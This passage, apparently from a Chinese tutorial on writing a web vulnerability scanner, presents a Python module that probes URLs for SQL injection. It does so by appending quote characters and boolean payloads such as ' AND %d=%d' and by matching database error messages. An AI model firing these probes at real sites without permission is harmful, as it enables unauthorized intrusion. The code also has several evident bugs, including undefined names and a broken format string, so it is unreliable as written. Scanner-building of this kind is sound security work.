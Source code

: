 意思就是当原始的网页等于正确的网页不等于错误的网页内容时就可以判定这个地址存在注入漏洞。

完整代码：

```
#-*- coding:utf-8 -*-
import requests,re,random

BOOLEAN_TESTS = (" AND %d=%d", " OR NOT (%d=%d)")
DBMS_ERRORS = {                                                                     # regular expressions used for DBMS recognition based on error message response
    "MySQL": (r"SQL syntax.*MySQL", r"Warning.*mysql_.*", r"valid MySQL result", r"MySqlClient\."),
    "PostgreSQL": (r"PostgreSQL.*ERROR", r"Warning.*\Wpg_.*", r"valid PostgreSQL result", r"Npgsql\."),
    "Microsoft SQL Server": (r"Driver.* SQL[\-\_\ ]*Server", r"OLE DB.* SQL Server", r"(\W|\A)SQL Server.*Driver", r"Warning.*mssql_.*", r"(\W|\A)SQL Server.*[0-9a-fA-F]{8}", r"(?s)Exception.*\WSystem\.Data\.SqlClient\.", r"(?s)Exception.*\WRoadhouse\.Cms\."),
    "Microsoft Access": (r"Microsoft Access Driver", r"JET Database Engine", r"Access Database Engine"),
    "Oracle": (r"\bORA-[0-9][0-9][0-9][0-9]", r"Oracle error", r"Oracle.*Driver", r"Warning.*\Woci_.*", r"Warning.*\Wora_.*"),
    "IBM DB2": (r"CLI Driver.*DB2", r"DB2 SQL error", r"\bdb2_\w+\("),
    "SQLite": (r"SQLite/JDBCDriver", r"SQLite.Exception", r"System.Data.SQLite.SQLiteException", r"Warning.*sqlite_.*", r"Warning.*SQLite3::", r"\[SQLITE_ERROR\]"),
    "Sybase": (r"(?i)Warning.*sybase.*", r"Sybase message", r"Sybase.*Server message.*"),
}

def sqlcheck(url):
    if(not url.find("?")):
        return False
    _url = url + "%29%28%22%27" #先用)("'使报错
    _content = request.get(_url).text
    for (dbms, regex) in ((dbms, regex) for dbms in DBMS_ERRORS for regex in DBMS_ERRORS[dbms]):
        if(re.search(regex,_content)):
            return True
    content = {}
    content["origin"] = request.get(_url).text
    for test_payload in BOOLEAN_TESTS:
        #正确的网页
        RANDINT = random.randint(1, 255)
        _url = url + test_payload%(RANDINT,RANDINT)
        content["true"] = downloader.request(_url)
        _url = url + test_payload%(RANDINT,RANDINT+1)
        content["false"] = downloader.request(_url)
        if content["origin"]==content["true"]!=content["false"]:
            return "sql fonud: %"%url

```

我们在`/script`目录中创建这个文件，命名为`sqlcheck.py`。

暂时我们可以把他作为一个模块单独的进行调用，等以后写完插件系统后可由插件系统自动的调用这些模块。

有些 url 地址是我们不需要测试的，比如. html 结尾的地址，我们可以过滤掉他们，这里我直接`find("?")`查找`?`来判断 url 是否符合我们的标准。
